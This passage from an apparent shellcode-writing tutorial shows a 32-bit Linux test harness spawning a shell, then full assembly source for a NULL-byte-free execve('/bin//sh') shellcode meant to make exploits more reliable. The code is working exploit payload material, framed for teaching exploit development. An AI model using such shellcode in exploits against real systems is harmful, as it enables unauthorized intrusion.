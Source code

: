     * Now, we have **code2_32** executable which we can use to test our shellcode written for 32-bit Intel systems. 

3. Testing our shellcode!

        $ cat exploit.txt - | ./code2_32

        whoami
        adwi

        echo $PATH
        /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

        who
        adwi     tty7         Nov 26 17:51 (:0)


    * Amazing! The shellcode is working perfectly. We got the shell. One thing you should note that is you do not get the **$** symbol. But you get a working shell.

    * Again, we wrote this shellcode for x86-Linux systems. This won't work on x64-Linux systems. 


## Step7, 8, 9, 10: Writing no-NULL Byte Shellcode!

At the end of previous step, we successfully wrote working shellcode. But under certain conditions, it won't work because there are plenty of NULL-characters in the middle of shellcode. 

To make our exploit more reliable, we have to write the assembly program which doesn't generate machine code with NULL characters. This might take time, but I suggest you do it yourself. 

1. The following program will give no-null character machine code. 

        $ cat shell32_no_null.asm 
        section .text
            global _start

        _start: 
            xor eax, eax		; Set eax = 0
            push eax
            
            push 0x68732f2f
            push 0x6e69622f

            mov ebx, esp

            push eax
            push ebx
            mov ecx, esp

            xor edx, edx		; Set edx = 0
            mov al, 0xb		; Set eax = 0xb
            int 0x80

        exit: 
            xor eax, eax
            inc eax
            xor ebx, ebx
            int 0x80
